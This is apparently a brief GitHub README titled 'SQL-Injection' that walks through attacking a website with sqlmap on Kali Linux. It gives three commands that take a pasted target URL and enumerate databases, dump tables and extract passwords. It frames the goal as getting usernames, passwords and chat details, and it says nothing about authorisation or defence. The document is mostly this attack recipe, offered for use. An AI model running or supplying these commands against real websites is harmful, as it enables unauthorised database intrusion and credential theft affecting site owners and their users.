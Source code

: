 # SQL-Injection
SQL injection on a website using kali linux

SQL server vulnerability will give full access to other users to get all the information  including username and passwords, with mail chat details, 
So vulnerability is the biggest  harm for the organizations.

For that we have to write just two to three commands in kali linux terminal

To get the databases
#sqlmap --url (paste the url) --dbs --risk=2 --level=2

However we can change the risk and the level according to the security

For getting the tables 
#sqlmap --url (paste the url) --tables --risk=2 --level=3

And we will get all the tables associated with the databases

For getting the passwords
#sqlmap --url (paste the url) --passwords --risk=2 --level=3 

And this will give us the passwords


